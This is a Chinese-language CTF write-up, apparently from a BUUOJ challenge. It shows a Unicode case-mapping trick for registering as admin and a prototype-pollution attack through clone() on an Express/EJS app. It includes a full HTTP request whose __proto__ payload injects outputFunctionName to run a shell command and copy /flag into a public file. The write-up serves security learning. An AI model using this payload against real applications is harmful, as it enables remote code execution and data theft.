对于toUpperCase():

```
字符"ı"、"ſ" 经过toUpperCase处理后结果为 "I"、"S"
```

对于toLowerCase():

```
字符"K"经过toLowerCase处理后结果为"k"(这个K不是K)
```

使用adm`ı`n注册  


merge、clone 可能触发原型链污染（暂时没有弄懂为什么会造成原型链污染）https://xz.aliyun.com/t/7184#toc-5

```
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

`/action`代码对post传入的数据进行了clone操作,触发原型链污染。render造成代码执行[参考链接]([https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/](https://evi0s.com/2019/08/30/expresslodashejs-从原型链污染到rce/))

传入可造成任意代码执行的数据，提示已经给出，flag在/flag文件中，由于无法显示出来，所以将内容输出到文件，路径已经从404报错页面得到，框架对外显示的路径都是/public/

```
POST /action HTTP/1.1
Host: f59a86b7-025d-4112-8179-5408079236b0.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Origin: http://f59a86b7-025d-4112-8179-5408079236b0.node3.buuoj.cn
Connection: close
Referer: http://f59a86b7-025d-4112-8179-5408079236b0.node3.buuoj.cn/
Cookie: session=s%3AG1zgVNFpJSA-czxyV6IyZ_mCJSStbn_6.Tw40woUQYqkMMTqBQl2SDs8Td0Og%2FepP2NS%2FT24zFK8
Upgrade-Insecure-Requests: 1
Content-Length: 133

{"__proto__":{"outputFunctionName": "a;global.process.mainModule.require('child_process').exec('cat /flag > /app/public/a.txt');//"}}
```

访问/info触发代码执行


访问/a.txt得到flag

```
flag{6d73d1f0-0865-44c3-9851-4e6f38dd58be}
```


参考链接：https://www.zhaoj.in/read-6462.html

